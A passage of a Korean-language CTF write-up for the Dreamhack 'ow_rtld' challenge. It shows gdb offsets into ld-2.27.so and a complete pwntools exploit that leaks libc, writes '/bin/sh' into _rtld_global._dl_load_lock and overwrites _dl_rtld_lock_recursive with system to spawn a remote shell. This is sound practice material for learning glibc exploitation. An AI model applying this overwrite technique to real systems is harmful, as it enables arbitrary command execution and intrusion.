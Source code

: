 <img width="1435" height="443" alt="image (36)" src="https://github.com/user-attachments/assets/642a60ab-d352-407c-b868-0fc981cc8c5a" />

```bash
root@c6d07003e850:~/rtld_global# gdb usr/lib/debug/lib/x86_64-linux-gnu/ld-2.27.so
pwndbg> p &_rtld_global._dl_load_lock
$1 = (__rtld_lock_recursive_t *) 0x228968 <_rtld_local+2312>
pwndbg> p &_rtld_global._dl_rtld_lock_recursive
$2 = (void (**)(void *)) 0x228f60 <_rtld_local+3840>
```

이렇게 생긴 usr 폴더 내에 `usr/lib/debug/lib/x86_64-linux-gnu/ld-2.27.so` 이 파일을 gdb로 오프셋을 얻을 수 있다.   

<br>

<img width="1338" height="199" alt="image (37)" src="https://github.com/user-attachments/assets/836c2fde-94ae-4beb-8dbe-8a8713b046a4" />

이제 이걸로 필요한 주소를 계산할 수 있다.  
- `_dl_load_lock` → `_rtld_global` +2312
- `_dl_rtld_lock_recursive` → `_rtld_global` + 3840  
<br>

이제 `_rtld_global`까지 조작해주면 (`_dl_rtld_lock_recursive` 를 `system` 으로) 끝이다.   

<br>

**최종 익스플로잇 코드**
```python
from pwn import *

#p = process('./ow_rtld')
p = remote('host1.dreamhack.games', 18761)

libc = ELF('./libc-2.27.so')
ld = ELF('./ld-2.27.so')

p.recvuntil(b': ')

stdout = int(p.recvuntil(b'\n'), 16)
libc_base = stdout - libc.symbols['_IO_2_1_stdout_']
ld_base = libc_base + 0x3f1000

print('libc_base..', hex(libc_base))
print('ld_base..', hex(ld_base))

rtld_global = ld_base + ld.symbols['_rtld_global']
dl_load_lock = rtld_global + 2312
dl_rtld_lock_recursive = rtld_global + 3840

print('rtld_global..', hex(rtld_global))
print('dl_load_lock..', hex(dl_load_lock))
print('dl_rtld_lock_recursive..', hex(dl_rtld_lock_recursive))

system = libc_base + libc.symbols['system']

print('system..', hex(system))

p.sendlineafter(b'> ', b'1')
p.sendlineafter(b'addr: ', str(dl_load_lock).encode())
p.sendlineafter(b'data: ', str(u64('/bin/sh\x00')).encode())
p.sendlineafter(b'> ', b'1')
p.sendlineafter(b'addr: ', str(dl_rtld_lock_recursive).encode())
p.sendlineafter(b'data: ', str(system).encode())
p.sendlineafter(b'> ', b'2')

p.interactive()
```
